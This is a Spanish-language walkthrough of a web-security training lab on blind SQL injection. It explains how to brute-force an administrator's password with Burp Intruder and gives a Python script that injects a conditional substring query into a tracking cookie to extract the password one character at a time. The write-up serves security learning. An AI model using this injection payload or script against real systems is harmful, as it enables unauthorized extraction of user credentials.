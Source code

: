 Una vez todos introducidos le damos a **start attack**, el botón está situado en la parte de arriba a la derecha y se empezarán a mandar solicitudes sustituyendo dicho caracter 

En caso de tener el profesional, el ataque será más rápido

En el laboratorio nos decía que cuando nos salierá el mensaje Welcome back en la respuesta este sería correcto, así que si le damos a la longitud vemos que hay **una que tiene más tamaño que el resto**

En mi caso este salio con el 7, esto significa que el primer caracter de la contraseña del usuario es un 7

Ahora para automatizar todo esto y que sea más rápido nos vamos a crear un **script en python**

````python
#!/usr/bin/python3
from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
        print("\n\n[¡] Saliendo...[!]")
        sys.exit(1)

# Ctrl_C
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0a0d00a103f4e328c210712900a1008a.web-security-academy.net/"
characters = string.ascii_lowercase + string.digits

def makeRequest():

    password = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")
    p2 = log.progress("Password")

    for position in range(1,22):
        for character in characters:
            cookies = {
                    'TrackingId': "cHUfxBiE5lX3wKit' and (select substring(password,%d,1) from users where username='administrator')='%s" % (position, character),
                    'session':'QYK8DJlPiMVw2nSe8366QrvIlQwT85sw'
                    }

            p1.status(cookies['TrackingId'])
            p2.status(password)
            r = requests.get(main_url, cookies=cookies)

            if "Welcome back!" in r.text:
                password += character
                break

if __name__ == '__main__':
        makeRequest()
````
